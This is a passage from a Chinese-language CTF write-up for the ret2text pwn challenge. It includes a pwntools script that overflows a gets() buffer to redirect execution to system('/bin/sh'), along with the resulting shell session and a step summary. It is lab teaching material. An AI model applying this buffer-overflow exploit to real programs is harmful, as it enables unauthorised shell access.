 - 按照上面显示的相对地址(左侧显示的)，字符串s与return address(也就是上面显示的 r )之间的偏移量为 `0x64+0x4`，然而实际应为`0x6c + 0x4`
- 也不知道错误是出在哪。属于TBD事项



# Exploit

- kali 20.04  python 3.9.2 pwntools 4.3.1

```python
# !/usr/bin/env python
from pwn import *

sh = process('./ret2text')
target = 0x804863a # 这个是前面分析的 mov dword ptr [esp], offset command ; command: "/bin/sh" 的地址 后面一条指令是 call  _system
payload = b'A' * (0x6c + 4) + p32(target) # 这里是前面分析的字符串 s 与 return address 之间的偏移量
sh.sendline(payload)
sh.interactive()
```

- 运行效果：

```bash
$ python ret2text.py  # python3.7
[+] Starting local process './ret2text': pid 26436
[*] Switching to interactive mode
There is something amazing here, do you know anything?
Maybe I will tell you next time !$ ls # 这里已经 getshell 了
canary_demo.c  canary.py  core    ex2  example  ret2text    ret2text.py
$ pwd
/home/kali/CTF/pwn
```



# Summary

1. IDA分析出危险函数(`gets`)
2. IDA分析出可以用于getshell的地方(`system("/bin/sh");`)，记录可以 getshell 的地址
3. gdb(pwndbg)分析出`gets`函数所用字符串 s 与 return address 之间的偏移量，构造payload，将用于getshell的地址覆盖到 return address 